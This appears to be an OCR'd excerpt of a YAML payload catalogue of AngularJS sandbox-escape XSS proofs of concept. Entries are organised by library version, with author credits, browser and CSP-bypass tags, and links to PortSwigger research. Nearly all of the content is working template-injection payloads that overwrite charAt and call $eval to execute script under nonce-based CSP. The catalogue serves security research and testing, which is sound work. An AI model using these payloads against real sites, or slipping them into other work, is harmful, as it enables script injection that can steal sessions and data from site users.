 ```yaml
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.9/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}</div>
    links:
      - https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.3.20:
    authors:
      - twitter:garethheyes
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.3.20/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.3.19:
    authors:
      - twitter:garethheyes
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.3.19/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;$eval('x=alert(1)//');}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.3.3-1.3.18:
    authors:
```